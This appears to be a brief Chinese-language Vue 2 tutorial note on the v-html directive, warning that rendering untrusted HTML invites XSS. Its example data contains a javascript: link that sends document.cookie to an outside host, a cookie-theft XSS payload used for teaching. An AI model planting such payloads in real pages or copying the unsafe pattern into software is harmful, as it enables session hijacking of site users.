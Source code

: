 ```yaml
---
title: Vue v-html
date: 2022-05-22
categories:
        - 前端框架
tags:
        - Vue
        - 前端
        - Vue 2

---
```


# v-html

设置元素的 innerHTML，会覆盖元素中的所有内容。但与`v-text`不同的是，它会识别 HTML 元素

## 安全性

在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 `XSS` 攻击。只在可信内容上使用 `v-html`，**永不**用在用户提交的内容上。

**HTML**

```HTMl
<div id="app">
    <div v-html="msg">原内容</div>
</div>
```

**JavaScrip**

```JavaScrip
var vm = new Vue({
	el: '#app',
	data: {
		msg: '<a href=javascript:location.href="http://www.baidu.com?" + document.cookie>XXS 攻击</a> ',
	},
});

Vue.config.productionTip = false;

```
